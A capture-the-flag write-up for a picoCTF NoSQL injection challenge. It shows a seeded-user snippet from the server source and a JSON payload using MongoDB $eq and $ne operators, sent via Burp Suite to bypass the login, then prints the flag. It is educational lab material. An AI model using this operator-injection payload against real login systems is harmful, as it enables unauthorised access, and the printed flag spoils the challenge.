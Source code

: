 # No Sql Injection

## Description

Can you try to get access to this website to get the flag?
You can download the source here.

## Solution
Use burpsuite for this chall.

First, try logging into a website with intercept active in burpsuite.
Then, send the request to repeater.

Previously, we were given a source code from the website, and there was a **server.js** file that contained a user's login information.

```js
 // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
```

From the file we also know that the website uses MongoDB. We just need to exploit the no sqli bug using burpsuite.

![nosqli](https://i.imgur.com/Mcwsmqw.png)

```
"email":"{\"$eq\":\"picoplayer355@picoctf.org\"}",
"password":"{\"$ne\":\"admin\"}"
```

* `"$eq": "picoplayer355@picoctf.org"` is an operator in MongoDB that means equal.
* Purpose: Check if an account with the email `"picoplayer355@picoctf.org"` exists.
* `"$ne": "admin"` is an operator in MongoDB that means not equal to.
* Purpose: Ensure the password is not `"admin"`.




## Flag
    picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}

